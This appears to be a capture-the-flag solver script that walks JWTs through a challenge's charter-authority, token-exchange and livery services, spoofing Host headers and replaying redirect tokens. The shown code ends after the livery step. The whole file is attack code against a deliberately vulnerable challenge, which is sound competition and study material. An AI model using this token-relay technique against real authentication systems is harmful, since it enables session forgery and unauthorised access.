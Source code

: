 ```python:solver.py
import webbrowser
import requests
import re
from jwt import api_jws

secret = "TESTJWTSECRET"  # For local only

REMOTE = False
HOST = "trading-post.chal.pwni.ng" if REMOTE else "localhost"
URL = f"http://{HOST}/"

# Charter Authority (start)

r = requests.get(URL + "start", headers={"Host": f"charterauthority.{HOST}"})
token = re.findall(r'<a href="//tokenexchange.[^/]+/enter\?jwt=(.+)">', r.text)[0]

print(token)

if not REMOTE:
    print("After Charter Authority (start)")
    print(api_jws.decode_complete(token, secret, algorithms=["HS256"])["payload"])


# Token Exchange

r = requests.post(
    URL + "submit",
    headers={"Host": f"tokenexchange.{HOST}"},
    data={
        "gold_amount": "50",
    },
    cookies={"jwt": token},
    allow_redirects=False,
)

token = r.headers["Location"].split("=")[-1]

if not REMOTE:
    print("After Token Exchange")
    print(api_jws.decode_complete(token, secret, algorithms=["HS256"])["payload"])

r = requests.get(
    URL + "callback",
    headers={"Host": f"charterauthority.{HOST}"},
    params={"service": "token-exchange", "token": token},
)
token = re.findall(r'<a href="//livery.[^/]+/enter\?jwt=(.+)">', r.text)[0]


# Livery

s = requests.session()
r = s.post(
    URL + "enter",
    headers={"Host": f"livery.{HOST}"},
    params={"jwt": token},
    allow_redirects=False,
)
r = s.post(URL + "done", headers={"Host": f"livery.{HOST}"}, allow_redirects=False)
token = r.headers["Location"].split("=")[-1]
if not REMOTE:
    print("After livery")
    print(api_jws.decode_complete(token, secret, algorithms=["HS256"])["payload"])
```